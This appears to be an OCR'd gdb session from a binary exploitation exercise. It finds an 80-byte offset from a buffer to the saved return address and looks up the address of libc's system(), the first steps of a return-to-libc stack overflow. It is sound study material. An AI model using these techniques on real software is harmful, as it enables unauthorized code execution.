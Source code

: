 b *main + 169
run
dat_will
AAAAAAAA
i f
Stack level 0, frame at 0xffffd720:
 eip = 0x8048579 in main; saved eip 0xf7e45513
 Arglist at 0xffffd718, args: 
 Locals at 0xffffd718, Previous frame's sp is 0xffffd720
 Saved registers:
  ebx at 0xffffd710, ebp at 0xffffd718, edi at 0xffffd714, eip at 0xffffd71c
(gdb) i r
eax            0xffffd6cc       -10548

0xffffd71c - 0xffffd6cc => 0x50 => 80
offset buffer/EIP 80 oct

system:
p system
$1 = {text variable, no debug info} 0xf7e6aed0 system